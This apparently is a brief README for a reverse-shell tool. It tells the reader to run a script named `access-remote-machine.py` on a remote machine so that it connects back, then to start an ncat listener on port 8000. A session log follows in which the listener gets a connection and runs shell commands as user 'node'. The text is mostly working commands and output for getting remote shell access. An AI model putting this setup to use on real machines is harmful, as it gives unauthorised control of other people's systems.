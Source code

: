 
Step 1: 
By running this on remote machine, it gives grants access to remote-ip mentioned in `access-remote-machine.py`
```
python access-remote-machine.py
```

Step 2: 
Install `ncat` if not installed on the machine

```
ncat -l -v -p 8000 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:32788.
whoami
node
whereis cat 
cat: /bin/cat /usr/share/man/man1/cat.1.gz
```
